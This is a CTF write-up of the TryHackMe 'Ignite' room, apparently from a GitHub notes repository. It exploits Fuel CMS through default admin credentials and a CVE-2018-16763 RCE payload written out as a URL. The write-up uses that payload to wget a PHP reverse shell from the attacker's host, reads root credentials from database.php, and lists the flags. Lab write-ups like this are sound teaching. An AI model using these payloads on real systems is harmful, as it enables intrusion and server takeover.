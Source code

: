 ```yaml
---
layout: default
---
```


# Ignite CTF
### This is a walkthrough of the [Ignite CTF](https://tryhackme.com/room/ignite)
* * *
It is a classic room where you exploit a Linux box, running vulnerable CMS and owning the machine.
<br>OK lets begin!

I always like to export the ip address of the target to a env variable, because I don't need to type the whole address everytime.

>export ip=10.10.28.46

Ok lets start an Nmap scan
>$ nmap -sC -sV -oN nmap.txt $ip

```
# Nmap 7.80 scan initiated Wed Jun 24 12:30:40 2020 as: nmap -sC -sV -oN nmap.txt 10.10.28.46
Nmap scan report for 10.10.28.46
Host is up (0.076s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 24 12:30:54 2020 -- 1 IP address (1 host up) scanned in 13.52 seconds
```
We can see that only port 80/tcp is open ... <br>
If we open it in a web browser there is a default FuelCMS instance running,
lets check out the admin panel `/fuel`. It appears that it has the default admin:admin credentilas.
```
$ip/fuel
admin:admin

maybe could be solved by uploading reverse php shell via the cms control panel since we know the creds ...
```
I tried to upload a PHP reverse shell manually, via the admin panel, but failed.
I ran searchsploit against Fuel CMS and found out an interesting RCE (CVE 2018-16763) that could help me out to gain further access ...

```
Fuel CMS RCE < 1.4.1 (1.4 in our case)
CVE 2018-16763 

exploit(code='ls -la'):

$ip/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('ls -al')%2b'

credits: https://www.youtube.com/watch?v=wLWqkULvefU
```
Here i use the RCE to upload a reverse PHP shell, that I have hosted on my Kali box using SimpleHTTP server.

```
reverse shell upload and execute

http://10.10.28.46/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('wget 10.5.2.55:8000/reverse.php -O reverse.php')%2b'

10.10.28.46/reverse.php
```
Here I have found the User flag
```
User.txt
6470e394cbf6dab6a91682cc8585059b
```
I started enumerating, with linpeas, etc ...<br>
Couldn't find any privilage escalation vectors.
<br>I have spend a lot of time going around in circles. At this point I started trying out everything i could think of. <br>
I googled FuelCMS Database Configuration and found out [this article](https://www.codeigniter.com/user_guide/database/configuration.html) <br>
They were talking about the MySQL DB, and I assume the app needs to talk with the DB, to do so it need to get authenticated with the DB using some kind of credentials...
I have read that the configuration file is stored in app/config/database.php. <br>
At first i couldn't find it, so i ran a quick `find`.
```
$ find / -name database.php 2>/dev/null
/var/www/html/fuel/application/config/database.php
```
* * *
## A QUICK TIP
>If we take a look at the end of the `find` command i have used above, `2>/dev/null` is baiscally telling the shell to send [`Stderr` (Standart error)](https://www.computerhope.com/jargon/s/stderr.htm) to /dev/null.
> * 0:stdin
> * 1:stdout
> * 2:stderr
>
>That way when we search through the `/` directory there are many files that we can't open simply because we do not have the permissions to. <br>
>So we use `2>/dev/null` to NOT print the error messages we get. <br>
>We want to see only the relevant information and not a shell filled up with `find: ‘/root’: Permission denied`

* * *

### If we take a look at the default page of Fuel CMS, we can see that it is right in front of us, but yeah ...

<a href="pics/ignite/pic1.png" target="_blank"><img src="pics/ignite/pic1.png"></a>

I have found root creds in the file and got the flag ...

```
'username' => 'root',
'password' => 'mememe',
```
```
Root.txt
b9bbcb33e11b80be759c4e844862482d
```

### You can find more notes on TryHackMe CTFs at my [GitHub](https://github.com/P4nd4233/tryHackMe_CTFs_Notes) .